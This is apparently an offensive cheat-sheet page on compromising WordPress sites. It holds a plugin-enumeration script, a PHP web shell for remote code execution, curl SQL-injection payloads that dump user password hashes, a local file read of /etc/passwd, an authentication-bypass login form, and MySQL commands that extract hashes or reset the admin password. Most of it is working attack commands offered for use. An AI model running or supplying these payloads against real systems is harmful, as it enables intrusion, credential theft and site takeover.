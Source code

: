 # Wordpress

## Basic Information

### Themes files

They're located at `/wp-content/themes/` so if you gain access to the WordPress Admin panel, you can modify **404.php** of some theme, and then go to `/wp-content/themes/twentytwenty/404.php`

### Main WordPress files

| File          | Description                                                                                                                                                                                                  |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| wp-config.php | Here you can find the root password of the database                                                                                                                                                          |
| xmlrpc.php    | File that represents a feature that enables data to be transmited by HTTP with XML mechanism. You can use this [script](https://github.com/notlucken/xmlrpc\_bruteforce/) to bruteforce users and passwords. |
| license.txt   | Userful information like the version of WordPress                                                                                                                                                            |

## Plugins Enumeration

To identify plugins of a Wordpress site, we can use a Script created by S4vitar but I improved it and uploaded to GitHub:

[Enumerate WordPress Plugins](https://github.com/notlucken/enumWordpressPlugins)

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "[!] Exiting..."
  exit 1
}


#Ctrl + C
trap ctrl_c INT

declare -i c=0

function readPlugins(){

  url=$1
  echo -e "\n[!] These are the plugins of $1:\n"
  echo -n "[+] "; curl -s -X GET "$url" | grep -oP '/plugins/\K[^.*/]+' | sort -u 
}

function helPanel(){
  echo -e "\n[i] Use\n"
  echo -e "\nh) Show this panel\n"
  echo -e "\nf) URL\n"
}

while getopts "hf:" arg; do
  case $arg in
    h) ;;
    f) url=$OPTARG; let c+=1;;
  esac
done

if [ $c -eq 1 ]; then
  readPlugins "$url"
else
  helPanel
fi
```

The usage is simple, only do a `chmod +x enumWordPressPlugins.sh` and later \`\`./enumWordpressPlugins.sh

## Plugin Explotations

### PHP Plugin to RCE

Depending on the plugin, we can upload a .php file as a plugin.

```php
<?php system($_GET['cmd']); ?>
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

You will see an error, but if we go to media:

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Access it to see the link:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
## BookingPress < 1.0.11 - Unauthenticated SQL Injection

The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection

You need to search for the ``wponce=<ID>`` in a page, in order to make the exploit work:
```bash
curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<ID>&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

To dump users and their passwords:

```bash
curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<ID>&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,NULL,NULL,NULL,NULL,NULL,NULL from wp_users-- -'
```

## Mail Masta 1.0.0 - Local File Read

We can read files from the machine if this plugin is installed. 
```bash
curl -s -X GET "http://<IP>/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```

## WP-Support-Plus-Responsive Ticket System < 7.1.3 - Privilege Escalation

You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().

You need to know at least one username.

```txt
<form method="post" action="http://<IP>/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

Then you need to enable a SimpleHTTPServer to exploit.

# Post Explotation

If we can see the username and password of MySQL database, we can use this command to extract usernames and passwords

```bash
mysql -u <USERNAME> --password=<PASSWORD> -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

Or we can change admin password

```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('12345678') WHERE ID = 1;"b
```

